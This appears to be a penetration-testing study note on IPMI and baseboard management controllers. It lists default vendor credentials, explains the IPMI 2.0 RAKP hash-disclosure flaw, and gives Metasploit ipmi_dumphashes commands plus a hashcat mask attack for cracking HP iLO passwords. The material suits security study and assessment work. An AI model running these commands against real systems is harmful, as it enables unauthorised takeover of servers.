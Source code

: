 - **Type:**
- Purpose:
  - manage and monitor systems even if they are powered off or in an unresponsive state
  -  remote upgrades
  - Before the OS has booted to modify BIOS settings
  - When the host is fully powered down
  - Access to a host after a system failure
  - querying inventory information, reviewing hardware logs, and alerting using SNMP.
- Structure
  - The host system can be powered off, but the IPMI module requires a power source and a LAN connection to work correctly.
  - Systems that use the IPMI protocol are called Baseboard Management Controllers (BMCs).
  - If we can access a BMC during an assessment, we would gain full access  to the host motherboard and be able to monitor, reboot, power off, or  even reinstall the host operating system. 


#### Configuration

- Some unique default passwords

  | Product         | Username      | Password                                                     |
  | --------------- | ------------- | ------------------------------------------------------------ |
  | Dell iDRAC      | root          | calvin                                                       |
  | HP iLO          | Administrator | randomized 8-character string consisting of numbers and uppercase letters |
  | Supermicro IPMI | ADMIN         | ADMIN                                                        |

#### Exploit

- IPMI 2.0

  During the authentication process, the server sends a salted SHA1 or MD5 hash of the user's password to the client before authentication takes  place. This can be leveraged to obtain the password hash for ANY valid  user account on the BMC. 

  - Metasploit [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/) module.

    ```bash
    msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes 
    msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts [IP]
    ```

  -  In the event of an HP iLO using a factory default password, we can use this Hashcat mask attack command

     `hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u` 

    which tries all combinations of upper case letters and numbers for an eight-character password.

#### Interaction

- nmap sctipt

- metasploit version scan
